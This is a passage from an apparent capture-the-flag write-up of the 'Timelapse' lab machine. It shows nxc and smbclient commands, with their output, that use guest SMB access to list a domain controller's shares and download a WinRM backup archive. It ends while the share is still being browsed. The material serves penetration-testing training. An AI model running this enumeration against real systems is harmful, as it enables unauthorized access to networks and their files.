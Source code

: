 From the open ports, it seems like a domain controller. We also get the domain name, let’s add that to our /etc/hots file:

```bash
10.10.11.152 timelapse.htb dc01.timelapse.htb
```

First, let’s see if the smb server allows null authentication:

```bash
nxc smb 10.10.11.152 -u 'any' -p '' --shares

SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\any: (Guest)
SMB         10.10.11.152    445    DC01             [*] Enumerated shares
SMB         10.10.11.152    445    DC01             Share           Permissions     Remark
SMB         10.10.11.152    445    DC01             -----           -----------     ------
SMB         10.10.11.152    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.152    445    DC01             C$                              Default share
SMB         10.10.11.152    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.152    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.152    445    DC01             Shares          READ            
SMB         10.10.11.152    445    DC01             SYSVOL                          Logon server share
```

Let’s read the share Shares:

```bash
nxc smb 10.10.11.152 -u 'any' -p '' --spider Shares --regex .

SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/Dev [dir]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/HelpDesk [dir]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/Dev/. [dir]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/Dev/.. [dir]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/Dev/winrm_backup.zip [lastm:'2021-10-25 17:05' size:2611]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/HelpDesk/. [dir]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/HelpDesk/.. [dir]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/HelpDesk/LAPS.x64.msi [lastm:'2021-10-25 11:55' size:1118208]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/HelpDesk/LAPS_Datasheet.docx [lastm:'2021-10-25 11:55' size:104422]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/HelpDesk/LAPS_OperationsGuide.docx [lastm:'2021-10-25 11:55' size:641378]
SMB         10.10.11.152    445    DC01             //10.10.11.152/Shares/HelpDesk/LAPS_TechnicalSpecification.docx [lastm:'2021-10-25 11:55' size:72683]

```

Let’s download all the files back to our host:

```bash
smbclient -N //10.10.11.152/Shares

smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1288165 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (27.7 KiloBytes/sec) (average 27.7 KiloBytes/sec)
smb: \Dev\> cd ../HelpDesk\
```